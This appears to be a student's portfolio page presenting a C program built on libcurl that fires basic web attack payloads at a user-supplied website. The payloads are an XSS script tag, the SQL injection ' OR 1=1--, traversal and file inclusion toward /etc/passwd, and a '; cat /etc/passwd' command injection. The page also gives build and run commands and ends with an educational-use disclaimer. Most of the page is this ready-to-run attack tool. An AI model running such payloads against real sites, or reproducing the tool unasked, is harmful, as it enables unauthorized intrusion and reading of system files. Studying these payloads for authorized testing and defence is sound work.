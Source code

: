 ```yaml
---
title: "Payload Injecter in C"
description: One of the projects that i made during 1st sem
draft: false
date: 2025-02-20
tags:
- C program
- Project
- Red Team Tool
---
```


A comprehensive web security testing tool that demonstrates various attack vectors commonly used in penetration testing and security research.

#### Features:
- **XSS (Cross-Site Scripting)** - Tests for script injection vulnerabilities
- **SQL Injection** - Tests for database injection vulnerabilities
- **Directory Traversal** - Tests for file system access vulnerabilities
- **Command Injection** - Tests for OS command execution vulnerabilities
- **File Inclusion** - Tests for local/remote file inclusion vulnerabilities

#### Code:
```C
#include <stdio.h>
#include <string.h>
#include <curl/curl.h>

#define MAX_PAYLOAD_SIZE 1024
#define MAX_TARGET_SIZE 256
#define MAX_RESPONSE_SIZE 4096

size_t write_callback(void *contents, size_t size, size_t nmemb, void *userp) {
    size_t realsize = size * nmemb;
    char *response = (char *)userp;
    strncat(response, (char *)contents, realsize);
    return realsize;
}

void inject_payload(char *url, char *payload) {
    CURL *curl;
    CURLcode res;
    char response[MAX_RESPONSE_SIZE] = {0};
    curl = curl_easy_init();
    if (curl) {
        curl_easy_setopt(curl, CURLOPT_URL, url);
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, response);
        res = curl_easy_perform(curl);
        if (res != CURLE_OK) {
            fprintf(stderr, "curl_easy_perform() failed: %s\n", curl_easy_strerror(res));
        }
        curl_easy_cleanup(curl);
    }
    printf("Response:\n%s\n", response);
}

void xss_payload(char *target) {
    char payload[MAX_PAYLOAD_SIZE] = "<script>alert('XSS')</script>";
    char url[MAX_TARGET_SIZE + 100];
    snprintf(url, sizeof(url), "%s?q=%s", target, payload);
    inject_payload(url, payload);
}

void sql_injection_payload(char *target) {
    char payload[MAX_PAYLOAD_SIZE] = "' OR 1=1--";
    char url[MAX_TARGET_SIZE + 100];
    snprintf(url, sizeof(url), "%s?id=%s", target, payload);
    inject_payload(url, payload);
}

void directory_traversal_payload(char *target) {
    char payload[MAX_PAYLOAD_SIZE] = "../../../../etc/passwd";
    char url[MAX_TARGET_SIZE + 100];
    snprintf(url, sizeof(url), "%s?file=%s", target, payload);
    inject_payload(url, payload);
}

void command_injection_payload(char *target) {
    char payload[MAX_PAYLOAD_SIZE] = "; cat /etc/passwd";
    char url[MAX_TARGET_SIZE + 100];
    snprintf(url, sizeof(url), "%s?command=%s", target, payload);
    inject_payload(url, payload);
}

void file_inclusion_payload(char *target) {
    char payload[MAX_PAYLOAD_SIZE] = "../../../../etc/passwd";
    char url[MAX_TARGET_SIZE + 100];
    snprintf(url, sizeof(url), "%s?file=%s", target, payload);
    inject_payload(url, payload);
}

int main() {
    char target[MAX_TARGET_SIZE];
    int option;

    printf("Enter the target website: ");
    fgets(target, MAX_TARGET_SIZE, stdin);
    target[strcspn(target, "\n")] = '\0'; // Remove newline character

    printf("Select an attack type:\n");
    printf("1. XSS\n");
    printf("2. SQL Injection\n");
    printf("3. Directory Traversal\n");
    printf("4. Command Injection\n");
    printf("5. File Inclusion\n");
    printf("Enter your choice (1-5): ");
    scanf("%d", &option);

    switch (option) {
        case 1:
            xss_payload(target);
            break;
        case 2:
            sql_injection_payload(target);
            break;
        case 3:
            directory_traversal_payload(target);
            break;
        case 4:
            command_injection_payload(target);
            break;
        case 5:
            file_inclusion_payload(target);
            break;
        default:
            printf("Invalid option. Exiting.\n");
            break;
    }

    return 0;
}
```
#### Dependencies:
- `libcurl` - For HTTP requests

#### Compilation:
```bash
gcc -o payload_injector payload_injector.c -lcurl
```

#### Usage:
```bash
./payload_injector
```

The program will prompt you to:
1. Enter a target website URL
2. Select an attack type from the menu (1-5)

#### ⚠ Important Notice:
This tool is intended for **educational purposes only** and should only be used on systems you own or have explicit permission to test. Unauthorized testing of web applications is illegal and unethical.

#### Github link:
[Payload Injector](https://github.com/glutton-su/C_program_project/blob/main/payload_injector.c)